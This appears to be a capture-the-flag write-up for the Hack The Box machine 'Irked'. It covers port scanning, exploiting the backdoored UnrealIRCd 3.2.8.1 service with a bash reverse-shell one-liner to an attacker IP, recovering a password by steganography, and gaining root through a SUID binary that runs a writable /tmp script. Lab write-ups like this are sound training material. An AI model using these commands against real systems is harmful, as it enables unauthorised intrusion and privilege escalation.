 User:
1. Scan the box with `nmap -sC -sV -oN irked.nmap 10.10.10.117` to check the services on the first 1000 ports
2. Port 80 is open, we see there is a mention of IRC by going on a browser
3. Rescan the box fully with `nmap -p- -oN irked_full.nmap 10.10.10.117` to check all ports open
4. There is an IRC service listening on port 8067, look up the RFC for IRC
5. Google the IRC version (Unreal3.2.8.1), we see there is a backdoor command execution
6. We can do `searchsploit unreal` to check and see if there's an exploit for it in the database, there actually is, we can either use it with `msfconsole`, or manually by `echo "AB;bash -c 'bash -i >& /dev/tcp/10.10.14.21/9001 0>&1'"` to send a shell (nc needs to listen on port 9001), then `python -c 'import tty;tty.spawn("/bin/bash")'` to spawn a shell, then stopping the nc listening process, `stty -raw -echo` to get rid of commands echoing, `fg` to go back to nc, and finally `export TERM=xterm` to be able to do `clear`. And voilà! 
7. We are now user `icrd`, and need to read a file owned by `djmardov` with permissions 600, so we cannot read it as `icrd`. In `Documents/.backup` we see `Super elite steg backup pw` with a cheating code.
8. Downloading the image that was shown by the http server, we run `steghide extract -sf irked.jpg -p PASSWORD` with the cheating code found in `.backup` as PASSWORD, and we get a nice pass.txt, which we guess is the password to ssh into djmardov's account, and it is, so that's it for user!

Root:
1. Running LinEnum on the box, we see an interesting SUID binary modified in 2018, `/usr/bin/listuser`. Analyzing it with ltrace shows:these system calls:
```
setuid(0)
system("/tmp/listusers")
```
2. `/tmp/listusers` is actually run as root, but is writeble by our user, so modifying it to add a `bash` command and making it executable does the trick, by running `listuser` we get a root shell!
